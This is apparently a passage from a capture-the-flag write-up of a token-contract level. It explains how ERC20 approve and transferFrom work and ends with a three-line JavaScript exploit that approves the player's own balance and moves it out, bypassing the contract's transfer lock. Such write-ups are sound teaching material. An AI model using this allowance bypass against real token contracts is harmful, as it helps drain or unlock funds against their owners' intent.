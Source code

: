 ![ERC20 openzeppeling](images/1ec4088e0ffadccfa057b1c022c8d4fb51d1475ef0e0018a4e32b7b1beab92e0.png)  

We got another method for transfering tokens ! cool but wait *he caller must have allowance for ``from``'s tokens of at least amount* so msg.sender needs to have an allowance of the amount.
and allowance can be set by calling..

![ERC20 openzeppelin](images/47b72aa9c7060cd02c197e1de9e50fb4f53f3b5a7d7e6e9f0c946807ec700df9.png)  

Okay we got everything let's exploit it

**Further Reading** [ERC20 API: An Attack Vector on Approve/TransferFrom Methods](https://docs.google.com/document/d/1YLPtQxZu1UAvO9cZ1O2RPXBbT0mooh4DYKjA_jp-RLM/edit#)

### Exploit

```js
const balance = (await contract.balanceOf(player)).toString();
await contract.approve(player,balance);
await contract.transferFrom(player,ANY_OTHER_ADDRESS,balance);
```
